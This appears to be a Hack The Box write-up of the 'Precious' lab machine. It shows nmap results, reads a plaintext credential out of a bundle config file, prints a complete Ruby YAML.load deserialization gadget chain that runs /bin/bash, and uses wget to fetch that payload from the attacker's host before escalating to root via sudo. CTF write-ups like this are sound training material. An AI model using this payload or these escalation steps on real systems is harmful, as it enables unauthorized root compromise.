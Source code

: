 ```yaml
---
title: "HTB - Precious Walkthrough"
date: 2023-06-11
author: Luigi Vezzoso
layout: post
tags: 
    - walkthrough
    - hackthebox
    - pentest
category: posts
draft: true
---
```


Hi There!

here we go with a new walkthrough of Hack The Box - Precious Machine!

![precious-img](assets/postimages/precious/Precious.png)


## initial footprint
As usual, we start the analisys in a black-box mode, and we need to figure out what type of the server we have in front of us. Let's run our loved tool nmap.

{% highlight shell %}

Nmap 7.80 scan initiated Sun Feb 19 23:02:56 2023 as: nmap -p- -sV -oN precious.nmap precious.htb
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.056s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp    open     http    nginx 1.18.0
21040/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 19 23:11:59 2023 -- 1 IP address (1 host up) scanned in 543.96 seconds
{% endhighlight %}


![precious-website](assets/postimages/precious/precious-website.png)


![precious-pdfconverte](assets/postimages/precious/local-pdfconvert.png)

![precious-generated-pdf](assets/postimages/precious/generated_pdf.png)

Already know CVE

![precious-cve](assets/postimages/precious/cve-2022-25765.png)

exploiting!

![precious-exploit](assets/postimages/precious/exploiting.png)

## Lateral moovemnt

{% highlight shell %}

$ cd /home/ruby
cd /home/ruby
$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Feb 24 15:43 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb 24 15:53 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
$ cd .bundle
cd .bundle
$ ls -la
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 4 ruby ruby 4096 Feb 24 15:43 ..
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
$ 


xabaras@helix:~/workdir/ctf/htb/precious.htb$ ssh henry@precious.htb
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 24 15:57:50 2023 from 10.10.14.184
henry@precious:~$ ls -la
total 24
drwxr-xr-x 2 henry henry 4096 Oct 26 08:28 .
drwxr-xr-x 4 root  root  4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root  root     9 Sep 26 05:04 .bash_history -> /dev/null
-rw-r--r-- 1 henry henry  220 Sep 26 04:40 .bash_logout
-rw-r--r-- 1 henry henry 3526 Sep 26 04:40 .bashrc
-rw-r--r-- 1 henry henry  807 Sep 26 04:40 .profile
-rw-r----- 1 root  henry   33 Feb 24 15:43 user.txt
henry@precious:~$ 



henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ 


{% endhighlight %}



henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
henry@precious:~$ 


again a well-know CVE 

https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/



dependency.yml

---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash
         method_id: :resolve
~           



wget http://10.10.14.184:8000/dependencies.yml -O dependencies.yml


sudo /usr/bin/ruby /opt/update_dependencies.rb



henry@precious:/tmp/.xab$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/tmp/.xab# id
uid=0(root) gid=0(root) groups=0(root)
root@precious:/tmp/.xab# 
















